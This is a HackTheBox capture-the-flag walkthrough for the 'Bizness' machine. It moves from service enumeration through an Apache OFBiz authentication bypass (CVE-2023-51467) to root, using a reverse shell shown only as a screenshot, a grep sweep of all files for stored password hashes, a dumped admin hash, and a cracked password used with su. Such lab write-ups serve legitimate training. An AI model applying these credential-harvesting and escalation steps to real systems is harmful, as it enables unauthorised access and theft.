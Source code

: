 <h1 align="center"> Bizness </h1>

<p align="center">
    <a href="https://app.hackthebox.com/machines/582">
        <img src="images/Bizness.png" width="500">
    </a>
</p>

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Service analysis on TCP/80](#2-tcp-80)
3. [CVE-2023-51467](#3-cve-2023-51467)
4. [Privilege Escalation](#4-user-to-root)
5. [Pwned Info](#pwned-info)

## 1. Recon

```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.252
Nmap scan report for 10.10.11.252
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb  8 10:10:57 2024 -- 1 IP address (1 host up) scanned in 29.47 seconds
```

## 2. TCP-80

There is an active service on port 80 and, as you can see from the nmap output, it redirects us to *https://bizness.htb*, so before connecting, we add it in `/etc/hosts`.

<p align="center">
  <img src="images/home.png" />
</p>

Not seeing anything interesting I started [dirsearch](https://github.com/maurosoria/dirsearch).

```bash
└─$ dirsearch -u https://bizness.htb --exclude-status 403,404,500,502,400,401

302     0B   https://bizness.htb/accounting    -> REDIRECTS TO: https://bizness.htb/accounting/
302     0B   https://bizness.htb/catalog    -> REDIRECTS TO: https://bizness.htb/catalog/
302     0B   https://bizness.htb/common    -> REDIRECTS TO: https://bizness.htb/common/
302     0B   https://bizness.htb/content    -> REDIRECTS TO: https://bizness.htb/content/
302     0B   https://bizness.htb/content/    -> REDIRECTS TO: https://bizness.htb/content/control/main
302     0B   https://bizness.htb/content/debug.log    -> REDIRECTS TO: https://bizness.htb/content/control/main
200    34KB  https://bizness.htb/control
200    34KB  https://bizness.htb/control/
200    11KB  https://bizness.htb/control/login
302     0B   https://bizness.htb/error    -> REDIRECTS TO: https://bizness.htb/error/
302     0B   https://bizness.htb/example    -> REDIRECTS TO: https://bizness.htb/example/
302     0B   https://bizness.htb/images    -> REDIRECTS TO: https://bizness.htb/images/
302     0B   https://bizness.htb/index.jsp    -> REDIRECTS TO: https://bizness.htb/control/main
200    21B   https://bizness.htb/solr/admin/
200    21B   https://bizness.htb/solr/admin/file/?file=solrconfig.xml
302     0B   https://bizness.htb/solr/    -> REDIRECTS TO: https://bizness.htb/solr/control/checkLogin/
```

Trying to connect to the first result obtained I am redirected to the [OFBiz](https://en.wikipedia.org/wiki/Apache_OFBiz) login page.

<p align="center">
  <img src="images/OFBiz.png" />
</p>

## 3. CVE-2023-51467

Having the system version

<p align="center">
  <img src="images/version.png" />
</p>

I started looking for vulnerabilities and I found [CVE-2023-51467](https://www.letsdefend.io/blog/exploitation-analysis-of-apache-ofbiz-zero-day-vulnerabilities-cve-2023-49070-cve-2023-51467#:~:text=CVE%2D2023%2D51467%20is%20a,without%20requiring%20any%20prior%20authentication.), thanks to which it is possible to bypass authentication and execute commands. So I found an [exploit](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) for that CVE and performed a reverse shell.

<p align="center">
  <img src="images/shell.png" />
</p>


We can have a better shell with the following command:

- python3 -c 'import pty; pty.spawn("/bin/bash")'
- CTRL + Z
- stty raw -echo; fg
- export TERM=xterm

In */home/ofbiz* there is the user flag.

## 4. User to ROOT

I tried using [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) without success, so, after some exploration, I found an interesting file in */opt/ofbiz/framework/resources/templates/* called *AdminUserLoginData.xml*.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one
or more contributor license agreements.  See the NOTICE file
distributed with this work for additional information
regarding copyright ownership.  The ASF licenses this file
to you under the Apache License, Version 2.0 (the
"License"); you may not use this file except in compliance
with the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing,
software distributed under the License is distributed on an
"AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
KIND, either express or implied.  See the License for the
specific language governing permissions and limitations
under the License.
-->

<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
```

So we have the current password but it is of no use. Then I ran a grep on each file to see if there were any passwords that were usable.

```bash
ofbiz@bizness:/opt/ofbiz$ find . -type f -exec strings {} \; | grep "currentPassword"
[...SNIPPET...]
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
[...SNIPPET...]
```

In the output I found a salted hash referring to the admin (which after looking it up I saw was in */opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat*).

While looking for a way to crack the hash I found a [tool](https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker) that performs this operation on hashes coming from OFBiz.

<p align="center">
  <img src="images/crack_hash.png" />
</p>

We use the password found to become superuser.

```bash
ofbiz@bizness:/opt/ofbiz$ su 
su 
Password: monkeybizness

root@bizness:/opt/ofbiz# whoami
whoami
root
```

In */root* there is the root flag.

## Pwned Info

<p align="center">
    <a href="https://www.hackthebox.com/achievement/machine/805273/582">
        <img src="images/Pwned.png" width="600">
    </a>
</p>